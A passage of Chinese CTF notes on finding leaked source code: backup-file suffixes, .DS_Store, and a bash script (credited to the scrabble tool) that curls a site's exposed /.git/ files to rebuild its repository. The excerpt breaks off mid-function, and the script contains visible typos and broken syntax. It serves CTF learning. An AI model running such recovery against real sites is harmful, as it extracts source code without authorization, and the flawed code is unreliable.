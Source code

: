 ```

# 后面加上压缩文件后缀名
.zip
.tar
.tar.gz
.7z
.rar

# 泄露目标结构或文件名的敏感文件来获取文件的位置
.DS_Store
```

#### Git泄露
* 题目提示
> 进入题目提供的登陆界面后可以看到一个非常显眼的提示字符串，可以github直接搜索

* 通过.git泄露
```
# 关键文件
.HEAD 	标记当前git在那个分支中
.refs    	标记改项目里的每一个分支指向的commit
.objects  	git本地仓库存储的所有对象
.commit 	标记一个项目的一次提交记录
.tree 	标记一个项目的目录或者子目录
.blob	标记一个项目的文件
.tag	命名一次提交
```
```
# git目录恢复文件原理
# https://github.com/denny0223/scrabble
# 查看HEAD文件获取分支的hash值
domain=$1
reef=$(curl -s $domain/.git/HEAD | awk '{print $2}')
tmp_dir=`echo $domain | awk -F '[/:]' '{print $4}'`
mkdir $tmp_dir
cd $tmp_dir
lastHash=$(curl -s $domain/.git/$ref)

# 得到hash值后说先本地初始化一个git，接着通过parseCommit获取全部对象，最后reset重设分支
git init
cd .git/objects/
parseCommit $lastHash
cd ../../
echo $lastHash > .git/refs/heads/master
git reset --head
```
* git函数补充
```
# parseCommot
# 函数用于下载commit对象，同时其parent也一并下载下来
function parseCommit{
	echo parseCommit $1
	downloadBlob $1
	tree=$(git cat-file -p $1|sed -n '1p' | awk '{print $2}')
	parseTree $tree
	parent=$(git cat-file -p $1|sed -n '2p' | awk '{print $2}')
	[$(#parent) -eq 40] && parseCommit $ parent
}

# parseTree
# 函数用于下载tree对象
function parseTree{
	echo parseTree $1
	downloadBlob $1
```